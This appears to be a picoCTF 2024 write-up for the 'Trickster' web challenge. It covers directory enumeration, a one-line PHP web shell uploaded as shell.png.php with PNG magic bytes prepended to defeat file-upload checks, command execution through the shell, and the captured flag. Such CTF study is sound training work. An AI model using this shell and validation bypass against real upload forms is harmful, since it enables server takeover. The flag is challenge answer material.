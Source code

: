 ### Trickster

Author: Junias Bonou
#Medium #web_exploitation #picoCTF2024 #browser_web_shell 
#### Description

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:53515/)!

##### Solution:
search the web directory using dirsearch

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/dirsearch]± ● master
└─$ python3 dirsearch.py -u http://atlas.picoctf.net:58821/


  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11730

Output: /home/kali/Downloads/dirsearch/reports/http_atlas.picoctf.net_58821/__24-09-29_00-37-51.txt

Target: http://atlas.picoctf.net:58821/

[00:37:51] Starting: 
[00:38:14] 403 -  285B  - /.ht_wsr.txt                                               
[00:38:14] 403 -  285B  - /.htaccess.bak1                                            
[00:38:14] 403 -  285B  - /.htaccess.orig                                            
[00:38:14] 403 -  285B  - /.htaccess.sample
[00:38:15] 403 -  285B  - /.htaccess.save
[00:38:15] 403 -  285B  - /.htaccess_orig
[00:38:15] 403 -  285B  - /.htaccess_extra
[00:38:15] 403 -  285B  - /.htaccessOLD2                                             
[00:38:15] 403 -  285B  - /.htaccess_sc
[00:38:15] 403 -  285B  - /.htaccessOLD                                              
[00:38:15] 403 -  285B  - /.htaccessBAK                                              
[00:38:15] 403 -  285B  - /.htm
[00:38:15] 403 -  285B  - /.html                                                     
[00:38:15] 403 -  285B  - /.htpasswd_test
[00:38:15] 403 -  285B  - /.htpasswds                                                
[00:38:15] 403 -  285B  - /.httr-oauth
[00:41:44] 200 -   62B  - /robots.txt                                                 
[00:41:49] 403 -  285B  - /server-status/                                             
[00:41:49] 403 -  285B  - /server-status
[00:42:17] 301 -  333B  - /uploads  ->  http://atlas.picoctf.net:58821/uploads/       
[00:42:17] 403 -  285B  - /uploads/                                                   
     
Task Completed

```

```cs
http://atlas.picoctf.net:58821/robots.txt

User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

```css
http://atlas.picoctf.net:58821/instructions.txt

Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

now here try to upload this as shell.png.php
 it will upload successfully but when you try to execute command it will not work
so make it work we need to follow the instruction
```css
make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
```
now open hexeditor and replace original hexadecimal with magic hexadecimal
![Trickster/hexeditor\_shell.png.php.jpg](Trickster/hexeditor_shell.png.php.jpg)


problem here if you try to edit then your PHP code will not work so we need to modify PHP code first

```php
hello
<?php echo "Shell";system($_GET['cmd']); ?>
```
now open hex editor again
![Trickster/hexeditor\_shell.png.php\_part1.jpg](Trickster/hexeditor_shell.png.php_part1.jpg)

add magic hexadecimal  `50 4E 47`
![Trickster/hexeditor\_shell.png.php\_modified.jpg](../../Medium/Trickster/hexeditor_shell.png.php_modified.jpg)
save and upload again and execute command
![Trickster/sucessfully\_uploaded.jpg](../../Medium/Trickster/sucessfully_uploaded.jpg)

![Trickster/shellcode\_working.jpg](Trickster/shellcode_working.jpg)

```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=whoami

PNGlo Shellwww-data
```

![Trickster/find\_commad.jpg](Trickster/find_commad.jpg)

```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=find%20/%20-name%20%22*.txt%22

PNGlo Shell/usr/lib/python3.9/LICENSE.txt /usr/local/lib/php/.channels/.alias/pear.txt /usr/local/lib/php/.channels/.alias/pecl.txt /usr/local/lib/php/.channels/.alias/phpdocs.txt /usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt /usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt /usr/share/perl/5.32.1/Unicode/Collate/keys.txt /usr/share/perl/5.32.1/unicore/Blocks.txt /usr/share/perl/5.32.1/unicore/NamedSequences.txt /usr/share/perl/5.32.1/unicore/SpecialCasing.txt /var/www/html/MQZWCYZWGI2WE.txt /var/www/html/instructions.txt /var/www/html/robots.txt 
```

![Trickster/flag.jpg](Trickster/flag.jpg)


```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=cat%20/var/www/html/MQZWCYZWGI2WE.txt

PNGlo Shell/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b} */
```
